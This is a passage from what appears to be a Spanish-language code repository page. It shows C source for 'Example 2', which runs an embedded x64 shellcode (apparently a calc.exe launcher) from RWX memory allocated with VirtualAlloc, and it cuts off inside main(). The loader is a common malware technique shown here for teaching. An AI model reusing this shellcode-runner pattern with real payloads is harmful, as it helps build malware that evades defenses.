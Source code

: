 ### [Example 2](./VirtualAlloc/example2.c)

Ejecutar shellcode usando VirtualAlloc:
```c
/*
 *
 *  Fuente: https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntfreevirtualmemory
 *          https://learn.microsoft.com/es-es/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntallocatevirtualmemory
 *  Compila con: gcc example1.c -o example1.exe 
 *
 */

[[include]] <stdint.h>
[[include]] <stdio.h>
[[include]] <windows.h>
[[include]] <string.h>

void PrintLastErrorInfo() {
    LPVOID lpMsgBuf;
    DWORD dwLastError = GetLastError();

    DWORD dwFlags = FORMAT_MESSAGE_ALLOCATE_BUFFER |
                    FORMAT_MESSAGE_FROM_SYSTEM |
                    FORMAT_MESSAGE_IGNORE_INSERTS;

    DWORD dwLanguageId = MAKELANGID(LANG_NEUTRAL, SUBLANG_DEFAULT);

    DWORD dwResult = FormatMessage(dwFlags, NULL, dwLastError, dwLanguageId,
                                   (LPTSTR)&lpMsgBuf, 0, NULL);

    if (dwResult != 0) {
        printf("Error code: %lu\n", dwLastError);
        printf("Error message: %s\n", (LPCTSTR)lpMsgBuf);
        
        // Libera el búfer de mensajes
        LocalFree(lpMsgBuf);
    } else {
        fprintf(stderr, "Error al obtener información sobre el último error.\n");
    }
}

static uint8_t code[] =   
    "\x48\x31\xff\x48\xf7\xe7\x65\x48\x8b\x58\x60\x48\x8b\x5b\x18\x48\x8b\x5b\x20\x48\x8b\x1b\x48\x8b\x1b\x48\x8b\x5b\x20\x49\x89\xd8\x8b"
    "\x5b\x3c\x4c\x01\xc3\x48\x31\xc9\x66\x81\xc1\xff\x88\x48\xc1\xe9\x08\x8b\x14\x0b\x4c\x01\xc2\x4d\x31\xd2\x44\x8b\x52\x1c\x4d\x01\xc2"
    "\x4d\x31\xdb\x44\x8b\x5a\x20\x4d\x01\xc3\x4d\x31\xe4\x44\x8b\x62\x24\x4d\x01\xc4\xeb\x32\x5b\x59\x48\x31\xc0\x48\x89\xe2\x51\x48\x8b"
    "\x0c\x24\x48\x31\xff\x41\x8b\x3c\x83\x4c\x01\xc7\x48\x89\xd6\xf3\xa6\x74\x05\x48\xff\xc0\xeb\xe6\x59\x66\x41\x8b\x04\x44\x41\x8b\x04"
    "\x82\x4c\x01\xc0\x53\xc3\x48\x31\xc9\x80\xc1\x07\x48\xb8\x0f\xa8\x96\x91\xba\x87\x9a\x9c\x48\xf7\xd0\x48\xc1\xe8\x08\x50\x51\xe8\xb0"
    "\xff\xff\xff\x49\x89\xc6\x48\x31\xc9\x48\xf7\xe1\x50\x48\xb8\x9c\x9e\x93\x9c\xd1\x9a\x87\x9a\x48\xf7\xd0\x50\x48\x89\xe1\x48\xff\xc2"
    "\x48\x83\xec\x20\x41\xff\xd6";
SIZE_T size_of_code = sizeof(code); // tamaño del shellcode

int main() {
    PVOID exec = VirtualAlloc(0, sizeof(code), MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    if (exec == NULL) puts("VirtualAlloc error");
```